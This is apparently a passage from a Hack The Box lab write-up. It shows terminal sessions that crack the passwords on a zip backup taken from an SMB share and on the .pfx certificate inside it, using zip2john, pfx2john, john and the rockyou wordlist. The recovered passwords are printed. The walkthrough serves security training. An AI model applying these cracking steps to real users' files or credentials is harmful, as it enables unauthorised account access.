 ```bash
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ zip2john winrm_backup.zip > winrm_backup.zip2john
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8


┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ john winrm_backup.zip2john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2024-12-23 06:48) 5.263g/s 18281Kp/s 18281Kc/s 18281KC/s tabatha916..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

With `john` I could crack the hash : `supremelegacy`
Using the credential, let's unzip the zip file.

```bash
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx    
                                                                           
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ ls
legacyy_dev_auth.pfx  winrm_backup.zip  winrm_backup.zip2john
                                                                           
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ file legacyy_dev_auth.pfx 
legacyy_dev_auth.pfx: data
```

Given the `pfx` file, let's extract private key using `openssl`.

```bash
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.pem   
Enter Import Password:
```

Since it's also asking password, I need to extract hash from it.

```bash
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ pfx2john legacyy_dev_auth.pfx > legacyy_dev_auth.pfx2john
```

Then, let's crack it.

```bash
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt legacyy_dev_auth.pfx2john 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 ASIMD 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:01:24 DONE (2024-12-23 07:09) 0.01179g/s 38110p/s 38110c/s 38110C/s thyriana..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
